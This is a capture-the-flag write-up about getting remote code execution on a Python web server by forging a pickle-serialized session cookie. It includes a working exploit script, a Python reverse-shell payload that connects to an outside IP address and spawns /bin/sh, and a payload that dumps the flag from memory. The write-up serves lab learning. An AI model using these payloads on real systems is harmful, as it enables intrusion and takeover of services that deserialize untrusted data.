




Port 8888 hosts a Python Werkzeug web server. The main page shows a list of Metasploit modules which can be filtered by the options in the top menu.



After several minutes of looking around for clues, we realized that feeding in an invalid cookie caused a pickle error. This of course means that our session cookie, which is set after each time we use the page filter, is being deserialized in Python with the `pickle` module. To test this, we took a valid cookie and serialized it locally in a Python shell.




So our request is being treated as a dictionary, where the key is the string `filter` and the value is being used to display certain Metasploit modules.

After a bit of research, we found this post on obtaining remote code execution through Python deserialization. The technique consists of using the `__reduce__` method in a Python class. This method is called upon instantiating a Python object after deserializing it. According to [this StackOverflow answer](https://stackoverflow.com/questions/19855156/whats-the-exact-usage-of-reduce-in-pickler), it is mainly used to rebuild objects that may have some state that cannot be serialized properly, such as file handles. Anyhow, this method returns a tuple of at most 6 elements, but we are only interested in the first two: the first element is a callable object, and the second is itself a tuple of the arguments that will be passed to the callable.

An easy way to test the vulnerability is to run Python’s `time.sleep` function and check the time it takes the server to reply. This is done by creating a new class with a `__reduce__` method that returns the `eval` function as its callable. We then place an instance of this class in the `filter` key of the dictionary we saw earlier. When the server deserializes and instantiates our class, it will execute our `eval` statement.

```python
import pickle
import base64
import requests

class RCE:
    def __reduce__(self):
        return eval, ("__import__('time').sleep(6)", )

original_cookie = "gASVIwAAAAAAAAB9lIwGZmlsdGVylIwTdHlwZSA9PSAiYXV4aWxpYXJ5IpRzLg=="
obj = pickle.loads(base64.b64decode(original_cookie))
obj["filter"] = RCE()
evil_cookie = base64.urlsafe_b64encode(pickle.dumps(obj))

headers = {
    "Cookie": "SESSION=" + evil_cookie.decode(),
    "Host": "metasploit.ctf:8888",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
}
r = requests.get("http://metasploit.ctf:8888/modules", headers=headers)
print(r.text)
```

After running that script and confirming that the sleep is being executed, it was time to get a shell. This is perhaps the step that took most of the time, but after several trials, we figured out that `eval` was a bad candidate, as it does not allow the execution of several statements easily. We also tried using `os.system` unsuccessfully. We ended up using `exec`, modifying the `__reduce__` return value with:
```python
return exec, ('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.15.7.228", 6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);', )
```

Once we jumped on the target machine, we realized that we had root access, but the flag was nowhere to be found. We then started to read the server script, `app.py`, and noticed that the following lines were executed on startup.



This meant that the flag was loaded somewhere in the process’ memory, not on disk. However, since our serialized payload is being run by the server itself, we can just dump the flag to disk by modifying again the return value of `__reduce__` to:

```python
return eval, ('open("flag.txt", "wb").write(FLAG)',)
```

{:height="300px"}
